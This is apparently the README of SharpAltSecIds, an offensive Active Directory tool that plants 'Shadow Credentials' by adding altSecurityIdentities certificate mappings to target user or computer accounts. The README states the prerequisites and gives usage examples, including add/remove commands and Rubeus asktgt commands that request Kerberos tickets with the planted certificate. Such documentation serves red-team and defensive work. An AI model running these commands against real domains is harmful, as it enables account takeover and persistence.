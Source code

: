 # SharpAltSecIds

Shadow Credentials using altSecurityIdentities.

Prerequisite:
- Object access to a target (user or computer).
- Access to a certificate trusted by domain controllers (NTAuthCertificates not a requirement).
- Domain controllers configured to support PKINIT.

Inspiration:
- https://github.com/eladshamir/Whisker
- https://www.riskinsight-wavestone.com/en/2021/06/microsoft-adcs-abusing-pki-in-active-directory-environment/

## Usage
```
SharpAltSecIds by @bugch3ck.

    Shadow Credentials using altSecurityIdentities.

    Inspired by the blog post "Microsoft ADCS – Abusing PKI in Active Directory Environment"
    by Jean Marsault at Wavestone.

Usage:
    SharpAltSecIds command [options]

Commands:
    l | list               - List current altSecurityIdentities entries.
    a | add                - Add altSecurityIdentities entry for target account.
    r | remove             - Remove altSecurityIdentities entry for target account.
    h | help (default)     - Show this help.

Options:
    /t /target:<account>   - The targeted account (end with $ for computer accounts).
    /a /altsecid:<value>   - The altSecurityIdentity value (X509:<I>...|X509:<SKI>...)

Examples:
    SharpAltSecIds list
    SharpAltSecIds l /target:bob
    SharpAltSecIds a /target:bob "/altsecid:X509:<I>DC=local,DC=mydomain,CN=myca<S>DC=local,DC=mydomain,CN=mycert"
    SharpAltSecIds r /target:bob "/altsecid:X509:<I>DC=local,DC=mydomain,CN=myca<S>DC=local,DC=mydomain,CN=mycert"
    SharpAltSecIds add /target:srv01$ /altsecid:X509:<SKI>4b8c70eeaadd62c88487a27c79a444ec930837f4
    SharpAltSecIds remove /target:srv01$ /altsecid:X509:<SKI>4b8c70eeaadd62c88487a27c79a444ec930837f4

Example usage with Rubeus:
    Rubeus asktgt /user:bob /certificate:mycert.pfx /password:thepassword /show /nowrap
    Rubeus asktgt /user:srv01$ /certificate:14350a8f2db76545b81a84587522cb740940f760 /show /nowrap
```
